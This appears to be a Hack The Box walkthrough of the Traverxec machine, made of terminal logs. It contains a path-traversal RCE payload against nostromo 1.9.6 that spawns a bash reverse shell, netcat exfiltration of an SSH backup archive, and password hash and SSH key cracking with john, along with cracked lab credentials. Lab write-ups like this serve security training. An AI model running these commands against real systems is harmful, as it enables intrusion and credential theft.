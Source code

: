 #HackTheBox  #linux 
# 1- Enum
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(root㉿kali)-[~]
└─# searchsploit nostromo 1.9.6
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                               | multiple/remote/47837.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                       
┌──(root㉿kali)-[~]
└─# searchsploit -m 47837      
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
    Codes: CVE-2019-16278
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/47837.py
                                                                                                       
┌──(root㉿kali)-[~]
└─# ls
47837.py

┌──(root㉿kali)-[~/HTB]
└─# cat 47837.py
	[...]
	payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh
	[...]

┌──(root㉿kali)-[~]
└─# curl -X POST http://10.129.229.26/.%0d./.%0d./.%0d./bin/sh -d 'bash -c "bash -i >& /dev/tcp/10.10.17.161/445 0>&1"'

# Foothold
┌──(root㉿kali)-[~]
└─# nc -lnvp 445             
listening on [any] 445 ...
connect to [10.10.17.161] from (UNKNOWN) [10.129.229.26] 50282
bash: cannot set terminal process group (800): Inappropriate ioctl for device
bash: no job control in this shell
[www-data@traverxec:/usr/bin$] (linpeas)
	╔══════════╣ Analyzing Htpasswd Files (limit 70)
	-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                                     
	[david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/]
	
┌──(root㉿kali)-[~/HTB]
└─# echo "david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/" > hash

┌──(root㉿kali)-[~/HTB]
└─# john hash -wordlist=/usr/share/wordlists/rockyou.txt
	[Nowonly4me]       ([david]) 
	
┌──(root㉿kali)-[~]
└─# nc -lvp 445 > key
[www-data@traverxec:/home/david/public_www/protected-file-area$] nc -w 3 10.10.17.161 445 < backup-ssh-identity-files.tgz

┌──(root㉿kali)-[~/HTB]
└─# gzip -d key.tgz

┌──(root㉿kali)-[~/HTB]
└─# tar -x -f key.tar

## ssh geting
┌──(root㉿kali)-[~/HTB/home/david/.ssh]
└─# ssh2john id_rsa > ssh_hash

┌──(root㉿kali)-[~/HTB/home/david/.ssh]
└─# john ssh_hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[hunter]           ([id_rsa])

## Creds 
### ssh = david:passphrase(hunter)